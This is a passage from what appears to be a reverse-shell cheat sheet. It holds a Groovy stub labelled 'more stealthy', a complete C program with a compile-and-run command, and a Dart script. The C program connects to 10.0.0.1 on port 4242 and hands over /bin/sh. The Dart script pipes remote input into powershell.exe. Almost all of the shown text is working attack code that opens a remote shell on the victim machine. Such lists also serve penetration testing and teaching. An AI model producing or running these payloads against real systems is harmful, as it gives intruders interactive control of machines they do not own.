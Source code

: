 **NOTE: This is more stealthy**
```
Thread.start {
    // Reverse shell here
}
```

## C Programming Language
**Compile with gcc or g++ '/tmp/shell.c --output shell.out && ./shell.out'**
```
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 4242;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.0.0.1");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}
```

## Dart
```
import 'dart:io';
import 'dart:convert';

main() {
  Socket.connect("10.0.0.1", 4242).then((socket) {
    socket.listen((data) {
      Process.start('powershell.exe', []).then((Process process) {
        process.stdin.writeln(new String.fromCharCodes(data).trim());
        process.stdout
          .transform(utf8.decoder)
          .listen((output) { socket.write(output); });
      });
    },
    onDone: () {
      socket.destroy();
    });
  });
}
```
## Metasploit Meterpreter Shell